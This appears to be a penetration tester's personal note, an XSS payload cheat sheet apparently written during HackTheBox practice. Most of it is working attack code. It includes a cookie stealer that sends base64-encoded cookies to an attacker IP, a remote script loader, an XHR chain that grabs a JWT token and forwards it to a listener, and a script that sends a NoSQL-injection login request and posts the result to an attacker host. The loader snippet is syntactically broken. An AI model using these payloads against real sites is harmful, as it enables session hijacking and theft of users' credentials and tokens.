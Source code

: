 ```yaml
---
creation date: April 17th 2023
last modified date: April 17th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[XSS]]  
___

## Description:  

### Classic Cookie Stealer
```
<script>var i=new Image(); i.src="http://10.10.14.8/?cookie="+btoa(document.cookie);</script>
```
Here we have used btoa() method for converting the cookie string into base64 encoded string.
Setup http server to catch responses:
```
python3 -m http.server -m 80
```


### Downloader for longer XSS payloads
```
<script>
var a=document.createElement(“script”);a.src=http://localhost:8000/steal_jwt.js;document.body.appendChild(a);
</script
```

### stealing value set in a response (such as a jwt token)
Use a downloader to pull the following code:
```
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
	if (xhr.readyState == 4 && xhr.status == 200) {
		var yourtoken = xhr.response
		var xhr2 = new XMLHttpRequest();
		xhr2.open("GET", "http://127.0.0.1:8000/?body=" + yourtoken);
		xhr2.send();
	}
}
xhr.open("GET", "https://some-url.com/v2/authenticationtoken/refresh");
xhr.send();
```
This script will send a request to a specific page as the user and then will send the response back to you.
Make sure to set the first URL as yourself (and open a python http listener) and set the second URL to the request containing the sensitive info in the response.
**This will grab the entire body, use the article below you need to grab a header**

https://medium.com/@agrawalsmart7/steal-csrf-auth-unique-key-header-with-xss-5a54c38d7ec3

### HttpOnly attribute bypass
https://www.shorebreaksecurity.com/blog/xss-exploitation-with-xhr-response-chaining/

### Javascript to make a request to a page as another user


```

var data = new URLSearchParams('email[$ne]=1&password[$regex]=^69.*$');
fetch('http://staff-review-panel.mailroom.htb/auth.php', {
	method: 'POST',
	headers: {
		'Content-Type': 'application/x-www-form-urlencoded'
	},
	body: data.toString()
})
	.then(response => response.text())
	.then(data => {
	// Make a POST request to another website with the data
	fetch('http://10.10.14.23/post', {
		method: 'POST',
		headers: {
		'Content-Type': 'text/plain'
	},
	body: data
})
	.then(response => console.log('Data sent:', response));
});

```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: April 17th 2023 (12:11 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
